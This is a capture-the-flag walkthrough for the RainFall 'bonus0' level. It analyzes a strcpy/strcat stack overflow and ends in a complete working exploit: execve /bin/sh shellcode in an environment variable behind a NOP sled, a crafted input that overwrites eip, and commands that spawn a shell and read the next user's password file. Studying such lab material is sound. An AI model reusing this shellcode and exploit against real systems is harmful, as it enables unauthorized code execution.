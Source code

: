 # Walkthrough

The home of bonus0 contains a binary, `level0`. We decompile it using dogbolt, there are a few interesting functions:

```c
char *__cdecl pp(char *main_string)
{
  char a[20]; 
  char b[20];

  p(a, " - ");
  p(b, " - ");
  strcpy(main_string, a);
  main_string[strlen(main_string)] = ' ';
  main_string[strlen(main_string)] = '\0';
  return strcat(main_string, b);
}
```
`strcat` is a dangerous function. Entry of its `man`:
```
SECURITY CONSIDERATIONS
     The strcat() function is easily misused in a manner which enables malicious users to arbitrarily change a running program's functionality through a buffer overflow attack.  (See the FSA.)

     Avoid using strcat().  Instead, use strncat() or strlcat() and ensure that no more characters are copied to the destination buffer than it can hold.

     Note that strncat() can also be problematic.  It may be a security concern for a string to be truncated at all.  Since the truncated string will not be as long as the original, it may refer to a completely
     different resource and usage of the truncated resource could result in very incorrect behavior. 
```


```c
char *__cdecl p(char *dest, char *puts_string)
{
  char buf[4096];

  puts(puts_string);
  read(0, buf, 4096);
  *strchr(buf, '\n') = 0; // Replaces the \n by a \0
  return strncpy(dest, buf, 20);
}
```
From the `man` of `strncpy`:
```
     The following sets chararray to “abcdef”:

           char chararray[6];

           (void)strncpy(chararray, "abcdefgh", sizeof(chararray));

     Note that it does not NUL terminate chararray because the length of the source string is greater than or equal to the length argument.
```

But `strcpy` needs a `\0` to see when to stop copying, making the `pp` function vulnerable.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char main_string[42]; 

  pp(main_string);
  puts(main_string);
  return 0;
}
```

Using GDB, we get interesting information:
```
Starting program: /home/user/bonus0/bonus0
 -
AAAABBBBCCCCDDDDEEEE
 -
AAAABBBBCCCCDDDDEEEE
AAAABBBBCCCCDDDDEEEEAAAABBBBCCCCDDDDEEEE�� AAAABBBBCCCCDDDDEEEE��

Program received signal SIGSEGV, Segmentation fault.
0x44434343 in ?? ()
(gdb) i r
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff710	0xbffff710
ebp            0x43424242	0x43424242
esi            0x0	0
edi            0x0	0
eip            0x44434343	0x44434343
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
We see that `ebp` and `eip` contain interesting values.
- `ebp`: `0x43424242` = "CBBB"
- `eip`: `0x44434343` = "DCCC"
The interesting part is that we managed to change the process execution flow by changing the value of `eip`. 

Now, let's try to find which string set the value of eip:
```
Starting program: /home/user/bonus0/bonus0
 -
AAAABBBBCCCCDDDDEEEE
 -
AAAABBBBCZZZZCCCDDDD
AAAABBBBCCCCDDDDEEEEAAAABBBBCZZZZCCCDDDD�� AAAABBBBCZZZZCCCDDDD��

Program received signal SIGSEGV, Segmentation fault.
0x5a5a5a5a in ?? ()
(gdb) i r
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff710	0xbffff710
ebp            0x43424242	0x43424242
esi            0x0	0
edi            0x0	0
eip            0x5a5a5a5a	0x5a5a5a5a
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
As you can see here, `eip` is now at `0x5a5a5a5a` = "ZZZZ"
Thus, we now that we need to input 9 characters in the second string to change `eip`. 

We want to pass our shellcode inside of an environment variable, as the buffer might be too small and we want to make a nopsled for easier access.

```
bonus0@RainFall:~$ env -i payload=$(python -c 'print "\x90"*500+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"') gdb -q bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/500s environ
...TRIM...
0xbffffe6e:	 "\220\220\220\220\220\220\220\220\22
...TRIM...
```
We choose address `0xbffffe6e` in the nopsled (reminder: a 'nopsled' is a chain of No Operator, thus we slide to the next real operator encountered).

Let's craft the final payload, first the input to give to the program:
```
python -c 'print "A"*4095+"\n" + "A"*9+"\x6e\xfe\xff\xbf"+"A"*7' > input.txt
```
We use 4095 + 1 characters for the first `read` call, to fill the buffer.
We put a '\n' to end the first string, 
The second string starts with 9 charcters of padding, then the address of our env variable, and extra characters to fill the string.

Then start the program with the payload in the env:
```
bonus0@RainFall:~$ cat input.txt - | env -i payload=$(python -c 'print "\x90"*500+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"') bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAn���AAAAAAA�� AAAAAAAAAn���AAAAAAA��
whoami
bonus1
cat /home/user/bonus1/.pass
```